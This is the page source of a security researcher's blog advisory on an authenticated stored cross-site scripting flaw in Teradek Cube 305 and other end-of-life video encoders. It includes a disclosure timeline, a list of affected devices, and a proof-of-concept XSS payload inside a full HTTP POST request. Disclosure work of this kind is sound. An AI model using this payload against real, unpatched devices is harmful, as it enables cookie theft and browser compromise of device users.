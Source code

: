 ```yaml
---
title: Teradek Cross-Site Scripting Vulnerability Advisory
description: Multiple Teradek Devices Found Vulnerable to Authenticated Stored Cross-Site Scripting
featured: false  
feature-header: "Featured Research 👇"
tag: research
image: "/assets/img/posts/2021-07-19-Teradek-Vulnerability-Advisory/payload_execution copy.png"
layout: post
date:  2021-04-29 00:01:21 -0400
last-updated: 2021-04-29 00:01:21 -0400
style: blog1
tag: "Vulnerability Research"
author: Tyler Butler
lead: "Multiple Teradek Devices Found Vulnerable to Authenticated Stored Cross-Site Scripting"
card: card-2
postid: 1
redirect_from:
  - /cve
navheader: posts
---
```




<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-19-Teradek-Vulnerability-Advisory/payload_execution copy.png">
    </div>
</div>  


Back in May, I disclosed a series of cross-site scripting vulnerabilities in the Cube 305 video encoder, a legacy video encoder from vendor <a href="https://teradek.com" class="highlighted">Teradek</a>. Teradek is video solutions manufacturer that develops networked devices for broadcast, cinema & imaging applications. After working through initial vulnerability disclosure with Teradek customer support, they informed me that "based on the scope of work involved, the product management team has determined that this issue will not be fixed for the EOL products". In this blog post, I'll describe the disclosure timeline and vulnerability details. While they declined to address the vulnerability, Teradek was overall a supportive partner in the vulnerabiltiy disclosure process, providing consistent communication and even going out of their way to provide a detailed list of effected devices.  

See the original vulnerability disclosure <a href="assets/img/posts/2021-07-19-Teradek-Vulnerability-Advisory/Teradek-305-Decoder-Vulnerability-Disclosure.pdf" class="highlighted">here</a>


####  **Index**  
+  [Disclosure Timeline]({{page.url}}#-disclosure-timeline)  
+  [About the Vendor]({{page.url}}#-about-the-vendor)  
+  [Vulnerability Details]({{page.url}}#-vulnerability-details)  


#### **⏱ Disclosure Timeline**

  <div class="timeline mt-1 mb-1">
      <div class="tl-item active">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I discover the vulnerability and open support ticket #128254 via <a class="highlighted" href="https://support.teradek.com/">support.teradek.com</a></div>
              <div class="tl-date text-muted mt-1">12 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">Teradek responds to initial report and requests additional information.</div>
              <div class="tl-date text-muted mt-1">13 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">Continuous communication between myself and Teradek support</div>
              <div class="tl-date text-muted mt-1">14 May - Jul 15th 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">Teradek indicates the product will be classified as EOL and the issue will not be addressed. Teradek support provides a full list of effected products so I can engage Mitre CVE team</div>
              <div class="tl-date text-muted mt-1">16 Jul 2021</div>
              <div><small class="muted"><a href="assets/img/posts/2021-07-19-Teradek-Vulnerability-Advisory/SC-00004267 - Teradek Vulnerability Disclosure.eml"><i class="fas fa-envelope-open-text"></i> email correspondence</a></small></div>
          </div>
      </div>
    </div>



#### **💡 About the Vendor**  

<a href="https://teradek.com" class="highlighted">Teradek</a> produces video encoding devices used by streamers and video professionals alike. According to their website, "Teradek designs and manufactures high performance video solutions for broadcast, cinema, and general imaging applications. From wireless monitoring, color correction, and lens control, to live streaming, SaaS solutions, and IP video distribution, Teradek technology is used around the world by professionals and amateurs alike to capture and share compelling content." Some of their most popular products include the Bolt, a zero delay HDR solution; the Teradek Ace, a compact wireless video system; and the Serve Pro, a compact live streaming HD system for android and MacOS.


#### **💀 Vulnerability Details**   

The Teradek Cube 305 and all the following Teradek devices are vulnearble to a stored cross-site scripting vulnerability via the Friendly Hostname field within the System Information Settings. Remote authenticated attackers can exploit this vulnerability by embedding malicious JavaScript payloads that execute in the context of victim browsers. The impact of this vulnerability is severe, as malicious code could be used to track victim browsers, steal cookies, or further exploit users.

1. Bond (firmware releases in the 7.3.x range were the final releases)  
2. Bond II (firmware releases in the 7.3.x range were the final releases)  
3. Bond Pro (firmware releases in the 7.3.x range were the final releases)  
4. Brik (firmware releases in 7.2.x were final)  
5. Clip  
6. Cube (firmware releases in the 7.3.x range were the last releases)  
7. Cube Pro (firmware releases in the 7.3.x range were the final releases)  
8. Slice (1st generation; firmware releases in the 7.3.x range were the final releases)  
9. Sphere  
10. VidiU / VidiU Mini (firmware 3.0.8 was the final release)  

#### **⚰️ Proof of Concept**   



**Payload**: Services.Zeroconf.friendlyname=Cube+255+04834<svg/onload=alert`xss!`>

```yaml
POST /cgi-bin/api.cgi HTTP/1.1
Host: 172.16.1.1
Content-Length: 415
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://172.16.1.1
Referer: http://172.16.1.1/index.cs
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: serenity-session=29328153
Connection: close

Services.Zeroconf.friendlyname=Cube+255+04834<svg/onload=alert`xss!`>&Services.Zeroconf.Bonjour.enable=1&Services.HTTP.port=80&Services.HTTP.ssl=disable&Services.DDNS.enable=0&Services.DDNS.system=dyndns%40dyndns.org&Services.DDNS.alias=&Services.DDNS.username=%3Csvg%2Fonload%3Dalert%60xss+3!%60%3E&Services.DDNS.password=&Services.DDNS.interval=60&save=Services&apply=Services&noredirect=%2Findex.cs%3Fpage%3Dnetwork.services&command=set 
```  

**Sending Payload with BurpSuite**

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-19-Teradek-Vulnerability-Advisory/friendly_name_stored_xss copy.png">
    </div>
</div>  

**Entering Payload via Device Settings** 


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-19-Teradek-Vulnerability-Advisory/friendly.png">
    </div>
</div>  

**Payload Execution**  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-07-19-Teradek-Vulnerability-Advisory/payload_execution copy.png">
    </div>
</div>  
